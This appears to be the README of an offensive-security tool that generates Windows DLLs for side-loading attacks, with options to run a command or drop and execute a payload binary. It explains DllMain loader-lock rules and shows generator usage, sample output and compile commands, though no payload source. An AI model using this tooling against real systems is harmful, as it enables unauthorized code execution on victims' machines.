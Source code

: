 # DLLsForHackers
Dlls that can be used for side loading and other attack vectors. This Dll will not cause deadlock since it only use functions that are `DllMain` safe as described below.

# Why?

I've seen to many POC with code been executed in the `DLL_PROCESS_ATTACH`. In fact most of the of the time the malcious code will not work as stated by Microsoft (https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices).

You should never perform the following tasks from within DllMain:

*    Call LoadLibrary or LoadLibraryEx (either directly or indirectly). This can cause a deadlock or a crash.
*    Call GetStringTypeA, GetStringTypeEx, or GetStringTypeW (either directly or indirectly). This can cause a deadlock or a crash.
*    Synchronize with other threads. This can cause a deadlock.
*    Acquire a synchronization object that is owned by code that is waiting to acquire the loader lock. This can cause a deadlock.
*    Initialize COM threads by using CoInitializeEx. Under certain conditions, this function can call LoadLibraryEx.
*    Call the registry functions. These functions are implemented in Advapi32.dll. If Advapi32.dll is not initialized before your DLL, the DLL can access uninitialized memory and cause the process to crash.
*    Call CreateProcess. Creating a process can load another DLL.
*    Call ExitThread. Exiting a thread during DLL detach can cause the loader lock to be acquired again, causing a deadlock or a crash.
*    Call CreateThread. Creating a thread can work if you do not synchronize with other threads, but it is risky.
*    Create a named pipe or other named object (Windows 2000 only). In Windows 2000, named objects are provided by the Terminal Services DLL. If this DLL is not initialized, calls to the DLL can cause the process to crash.
*    Use the memory management function from the dynamic C Run-Time (CRT). If the CRT DLL is not initialized, calls to these functions can cause the process to crash.
*    Call functions in User32.dll or Gdi32.dll. Some functions load another DLL, which may not be initialized.
    Use managed code.
    
 ## Only the following are considered safe
 
 The following tasks are safe to perform within DllMain:

*    Initialize static data structures and members at compile time.
*    Create and initialize synchronization objects.
*    Allocate memory and initialize dynamic data structures (avoiding the functions listed above.)
*    Set up thread local storage (TLS).
*    Open, read from, and write to files.
*    Call functions in Kernel32.dll (except the functions that are listed above).
*    Set global pointers to NULL, putting off the initialization of dynamic members. In Microsoft Windows Vista™, you can use the one-time initialization functions to ensure that a block of code is executed only once in a multithreaded environment.

# Usage

```
python3 GenDll.py --help
DLLsForHackers Mr.Un1k0d3r RingZer0 Team
----------------------------------------

usage: GenDll.py [-h] -t {exec,dropexec} [-com COMPILE] [-c CMD] [-fn FILENAME] [-fp FILEPATH] [-v {true,false}]

optional arguments:
  -h, --help            show this help message and exit
  -t {exec,dropexec}, --type {exec,dropexec}
                        Payload type (exec,dropexec)
  -com COMPILE, --compile COMPILE
                        Path to mingw32-g++.exe
  -c CMD, --cmd CMD     Command to run
  -fn FILENAME, --filename FILENAME
                        Dropped filename (optional)
  -fp FILEPATH, --filepath FILEPATH
                        File to drop on the remote host
  -v {true,false}, --verbose {true,false}
```

```
python3 GenDll.py -t dropexec --com "C:\Program Files\mingw-w64\x86_64-8.1.0-win32-seh-rt_v6-rev0\mingw64\bin\x86_64-w64-mingw32-g++.exe" --payload binary.exe
DLLsForHackers Mr.Un1k0d3r RingZer0 Team
----------------------------------------

[+] Loading drop exec dll payload.
[+] Loading payload.exe.
[+] Dll source saved as 'output/dropexec-1600369623.c'.
[*] Compiling the Dll using 'C:\Program Files\mingw-w64\x86_64-8.1.0-win32-seh-rt_v6-rev0\mingw64\bin\x86_64-w64-mingw32-g++.exe' as the gcc path.
[*] Compiling the Dll using the following command '"C:\Program Files\mingw-w64\x86_64-8.1.0-win32-seh-rt_v6-rev0\mingw64\bin\x86_64-w64-mingw32-g++.exe" -Wall -DBUILD_DLL -O2 -c output/dropexec-1600369623.c -o output/dropexec-1600369623.c.o && "C:\Program Files\mingw-w64\x86_64-8.1.0-win32-seh-rt_v6-rev0\mingw64\bin\x86_64-w64-mingw32-g++.exe" -shared -Wl,--dll output/dropexec-1600369623.c.o -o output/dropexec-1600369623.c.dll'.
[+] Compiled Dll saved as 'dlls/dropexec-1600369623.c.dll'.
[+] Process completed.
```

# Compile it using GCC

* Exec (exec.c)
```
mingw32-g++.exe -Wall -DBUILD_DLL -O2 -c exec.c -o exec.o
mingw32-g++.exe -shared -Wl,--dll  exec.o -o exec.dll
```

* Drop Exec (dropexec.c)
```
mingw32-g++.exe -Wall -DBUILD_DLL -O2 -c dropexec.c -o dropexec.o
mingw32-g++.exe -shared -Wl,--dll  dropexec.o -o dropexec.dll
```

# Credit

Mr.Un1k0d3r RingZer0 Team
